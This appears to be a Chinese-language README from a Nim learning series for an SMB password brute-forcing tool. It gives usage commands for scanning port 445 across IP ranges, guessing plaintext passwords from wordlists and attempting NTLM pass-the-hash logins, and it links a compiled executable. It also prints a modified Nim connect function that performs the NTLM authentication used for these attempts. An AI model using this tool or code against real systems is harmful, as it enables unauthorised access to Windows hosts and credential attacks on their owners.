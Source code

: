 # SMB密码爆破（nim学习系列）

关键字：windows smb密码爆破；445端口；弱口令扫描；  ntlmhash爆破；

## 使用方法

> * 支持明文密码爆破
> * 支持ntlmhash爆破  
> * 通过命令行或者文件导入目标IP地址
> * 先扫描目标IP 445端口，如果开放再进行密码爆破
> * 输出爆破过程，成功密码保持到 smblogin.log

IP地址的输入支持单个IP和CIDR。  

账号密码的输入支持两种格式。  

第一种，user.txt（存放用户名） 和 pass.txt（存放密码）。  

第二种， userpass.txt（一行一对账号密码，用空格间隔，比如：administrator  123456）。  

如果以上文件同时存在，优先选择第二种。

### 举例

明文密码爆破

smblogin.exe plain 192.168.1.0/24  

smblogin.exe plain ip.txt

ntlmhash爆破

smblogin.exe hash 10.10.0.0/23

### 截图

![使用截图](https://files-cdn.cnblogs.com/files/StudyCat/sublogin.bmp)  

![使用截图2](https://files-cdn.cnblogs.com/files/StudyCat/smblogin2.bmp)

## 源代码 sublogin.nim

源代码：  

[sublogin.nim](https://github.com/StudyCat404/myNimExamples/blob/main/examples/smblogin.nim)  

已经编译好的exe：  

[sublogin.exe](https://github.com/StudyCat404/myNimExamples/blob/main/examples/smblogin.exe)

主要使用到 SMBExec 模块，可通过 nimble install SMBExec 进行安装。  

但是如果直接调用原版自带的 connect 函数（SMBExec.nim文件中）进行超过一次的登陆尝试，会提示“远程主机强迫关闭了一个现有的连接”错误。最后我复制 connect 函数，并重命名为 connectTest ，修改后的代码如下：  

``` nim
proc connectTest*(smb: SMB2): bool =
    var 
        recvClient: seq[string]
        response: string
    #### new line    
    messageID = 1    
    session_ID = @[0x00.byte,0x00.byte,0x00.byte,0x00.byte,0x00.byte,0x00.byte,0x00.byte,0x00.byte]    
    #### new line
    ## Connect
    smb.socket.connect(smb.target, 445.Port)

    ## SMBv1 Init negotiate
    smb.socket.send(getSMBv1NegoPacket())
    recvClient = smb.socket.recvPacket(1024, 100)

    ## Check Dialect
    #printC(Info, "Dialect: " & checkDialect recvClient)

    ## Check Signing
    signing = checkSigning recvClient
    #if signing:
    #    printC Info, "Signing Enabled"
    #else:
    #    printC Info, "Signing Disabled"

    ## SMBv2 negotiate
    smb.socket.send(getSMBv2NegoPacket())
    recvClient = smb.socket.recvPacket(1024, 100)

    ## SMBv2NTLM negotiate
    smb.socket.send(getSMBv2NTLMNego(signing))
    response = smb.socket.recvPacketForNTLM(1024, 100)

    ## Pass the hash
    let authPacket = getSMBv2NTLMAuth(getSMBv2NTLMSSP(response, smb.hash, smb.domain, smb.user, signing)) 

    smb.socket.send(authPacket)
    recvClient = smb.socket.recvPacket(1024, 100)

    if checkAuth recvClient:
        #printC Success, "Successfully logged on!"
        stage = TreeConnect
        return true
    else:
        #printC Error, "Login failed"
        stage = Exit
        return false

    #result = recvClient
```

向 k8gege学习 http://k8gege.org/Ladon/SmbScan.html



